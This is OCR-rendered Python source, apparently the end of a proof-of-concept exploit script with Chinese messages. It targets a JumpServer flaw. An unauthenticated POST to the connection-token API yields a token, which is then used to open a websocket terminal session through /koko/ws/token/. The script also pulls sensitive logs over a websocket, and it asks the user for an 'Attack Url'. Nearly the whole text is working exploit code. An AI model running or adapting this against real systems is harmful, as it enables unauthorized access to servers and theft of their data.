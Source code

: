 ```python
                    ws.run_forever()
                    ws.close()
                except KeyboardInterrupt:
                    ws.close()
        else:
            print("\033[31m[x] 目标漏洞已修复，无法获取敏感日志信息\033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 目标漏洞已修复，无法获取敏感日志信息,{}\033[0m".format(e))
        sys.exit(0)


def POC_2(target_url, user, asset, system_user):
    if target_url == "" or asset == "" or system_user == "":
        print("\033[31m[x] 请获取 assset 等参数配置\033[0m")
        sys.exit(0)
    data = {"user": user, "asset": asset, "system_user": system_user}
    vuln_url = target_url + "/api/v1/users/connection-token/?user-only=1"
    # vuln_url = target_url + "/api/v1/authentication/connection-token/?user-only=1"

    try:
        response = requests.post(vuln_url, json=data, timeout=5).json()
        print("\033[32m[o] 正在请求：{}\033[0m".format(vuln_url))
        token = response['token']
        print("\033[36m[o] 成功获取Token：{}\033[0m".format(token))
        ws_url = target_url.strip("http://")
        ws_url = "ws://" + ws_url + "/koko/ws/token/?target_id={}".format(token)
        asyncio.get_event_loop().run_until_complete(main_logic(ws_url))

    except Exception as e:
        print("\033[31m[x] 请检查 assset 等参数配置,{}\033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    user = "ed3460eb-3c70-4beb-b631-f8f91c39bdd1"
    asset = "37fce0b0-cc4f-4822-8c33-afdebc888fa7"
    system_user = "da09ddd7-fd3f-46c3-914d-752883a4d950"
    POC_1(target_url)
    POC_2(target_url, user, asset, system_user)
```
